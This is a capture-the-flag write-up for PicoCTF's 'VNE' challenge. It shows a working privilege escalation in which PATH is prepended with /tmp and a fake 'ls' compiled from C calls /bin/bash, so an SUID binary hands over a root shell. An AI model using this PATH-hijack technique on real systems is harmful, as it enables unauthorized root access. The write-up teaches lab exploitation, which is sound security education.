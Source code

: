 ```yaml
---
title: "PicoCTF 2023 Binary Exploitation: VNE"
description: "Writeup for VNE from PicoCTF 2023"
slug: "picoctf-vne"
date: "2022-03-06 00:00:00+0000"
image: "cover.jpg"
categories:
    - "CTF"
tags:
weight: 1
---
```


```
📁Category: Binary Exploitation
📄Files: N/A
💻 Server Connections: Yes
🏷️Tags: bash, env, injection

📃Description: We've got a binary that can list directories as root, try it out !!
Additional details will be available after launching your challenge instance.

1️⃣Hint 1: Have you checked the contents of the /root folder?
2️⃣Hint 2: Find a way to add more instruction to ls
```

### Takeaways from hints, description, and tags: 
* Something important is in the /root file (the flag)
* We will have to use environment variables
* The binary lists contents of a directory as root
* We need to inject code into “ls”

## Phase 1: Recon 🔍
It is important to get familiar with the machine we log into so that we can find important assets such as possible vulnerabilities, which we may be able to exploit to get us root access.

### What do we notice? 
* A binary that lists a directory as root
* Why this is important: It does it as root via an SUID bit, because the root user made the executable
* How it works: It takes the input for the directory as an environment variable
* Other important takeaways: If it is listing the contents of a directory, it is most probably doing something with the ls binary

```
ctf-player@pico-chall$ ls
bin
ctf-player@pico-chall$ file bin
bin: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l d-linux-x86-64.so.2, BuildID[shal]=202cb71538089bb22aa22d5d3f8f77a8a94a826f, for GNU/Linux 3.2.0, not stripp 
ctf-player@pico-chall$ ls -l
ed
total 20
-rwsr-xr-x 1 root root 18752 Aug 4 2023 bin
ctf-player@pico-chall$
```

> SUID, short for Set User ID, is a special permission that can be assigned to executable files. When an executable file has the SUID permission enabled, it allows users who execute the file to temporarily assume the privileges of the file's owner.

## Phase 2: Constructing a Plan 🛠️
Using the information we have gathered, we can try to assess vulnerabilities on our target system. So far, we have thought of environment variable injection, but now it is time for us to plot out this plan.

### The Plan 
We make our own ls binary that spawns a shell. Since the file has an SUID, this will give us a root shell if the binary we are manipulating uses ls (in which according to the hints, it does).

There are however, some rather huge obstacles


> Q1: How would we execute this plan so that the binary we are manipulating thinks our ls binary is the real ls binary?

> A1: We could exploit the `PATH` environment variable. Many hints and tags tell us that the exploit has something to do
with environment variables and the ls executable which the SUID binary is most likely using for its operations.



> Q2: What directory should we put our binary into?

> A2: The answer is /tmp. A directory with read, write, and execute permissions for everyone. This is perfect as it will
be the perfect soil to plant our C code in.

### The Theory: 
When "ls" is typed into the command line, the system looks through path for an executable with the name "ls". So in our injected PATH, because `/tmp` is first, when the binary which runs ls as root runs "ls" as root it wil run our binary as root which will run /bin/bash root.

![image](https://github.com/shuban-789/PicoPwnbooks-BinaryExploitation/assets/67974101/9525b700-e39d-4ec6-a2b6-62fe0edec152)


## Phase 3: Execution 🧀
First, let's log onto our machine. To logon, we will need to use ssh with the command format of: 

`ssh -p <port> <user>@<ip>`

After logging on, let’s list our environment variables, and try editing the PATH.

```
ctf-player@pico-chall$ env SHELL=/bin/bash
PWD=/home/ctf-player
LOGNAME=ctf-player
MOTD_SHOWN=pam
HOME=/home/ctf-player
LANG=C.UTF-8
SSH_CONNECTION=127.0.0.1 55826 127.0.0.1 22
TERM=xterm-256color
USER=ctf-player
SHLVL=1
PS1=\[\e[35m\]\u\[\e[m\]@\[\e[35m\]pico-chall\[\e[m\]$ SSH_CLIENT=127.0.0.1 55826 22
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
SSH_TTY=/dev/pts/0
_=/usr/bin/env
ctf-player@pico-chall$ export PATH=/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/ga
mes:/usr/local/games:/snap/bin
ctf-player@pico-chall$ env
SHELL=/bin/bash
PWD=/home/ctf-player
LOGNAME=ctf-player
MOTD_SHOWN=pam
HOME=/home/ctf-player
LANG=C.UTF-8
SSH_CONNECTION=127.0.0.1 55826 127.0.0.1 22
TERM=xterm-256color
USER=ctf-player
SHLVL=1
PS1=\[\e[35m\]\u\[\e[m\]@\[\e[35m\]pico-chall\[\e[m\]$ SSH_CLIENT=127.0.0.1 55826 22
PATH=/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
SSH_TTY=/dev/pts/0
_=/usr/bin/env
ctf-player@pico-chall$
```

It looks like the injection worked, so we can move on to making our fake ls executable.

Finally, we need to make our fake ls binary containing this C code:

```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
  system("/bin/bash");
}
```

<br>

```
ctf-player@pico-chall$ touch ls.c
ctf-player@pico-chall$ echo "#include <stdio.h>" >> ls.c
ctf-player@pico-chall$ echo "#include <stdlib.h>" >> ls.c
ctf-player@pico-chall$ echo "int main()" >> ls.c
ctf-player@pico-chall$ echo "{" >> ls.c
ctf-player@pico-chall$ echo " system(\"/bin/bash\");" >> ls.c 
ctf-player@pico-chall$ echo "}" >> ls.c
ctf-player@pico-chall$ cc ls.c -o ls
```

Lets execute!

```
ctf-player@pico-chall$ ./bin
Listing the content of /root as root:
root@challenge:/# cd /root
root@challenge: /root# cat flag.txt
picoCTF{try_to_pwn_VNE_on_your_own}root@challenge: /root# exit
```

### Disclaimer
The flag obtained in the command sequence example is obviously an edited version of the real flag. I highly reccomend you to try to solve the VNE problem and obtain its flag on your own.
